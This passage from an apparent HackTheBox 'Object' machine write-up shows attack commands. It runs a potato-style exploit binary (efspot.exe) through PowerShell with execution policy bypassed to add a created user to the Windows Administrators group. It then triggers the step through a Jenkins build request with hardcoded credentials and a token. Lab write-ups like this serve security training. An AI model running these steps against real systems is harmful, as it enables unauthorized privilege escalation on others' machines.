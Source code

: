 Now that our user `shadows` was created successfully, we can add it to the `Administrators` group using the following command:\
`cmd.exe /c powershell -NoProfile -ExecutionPolicy Bypass -Command "%TEMP%\resource.temp\efspot.exe 'net localgroup administrators shadows /add'"`

![light mode only](/assets/img/posts/htb/machines/windows/hard/object/object_39.png){: .light .w-100 .shadow .rounded-10 w='1212' h='668' }
![dark mode only](/assets/img/posts/htb/machines/windows/hard/object/object_39.png){: .dark .w-100 .shadow .rounded-10 w='1212' h='668' }


We can now trigger the job again to build with the new command.

```zsh
0x3ds@kali $ curl -X POST -L --user shadows:113cd8cf72a195b55d66f037ad1d0a7331 \
    'http://object.htb:8080/job/shadownedya/build?token=ShadowsAuthToken'

```

We can now refresh our project page and access the Console Output of our newly built job to see that it was successful.
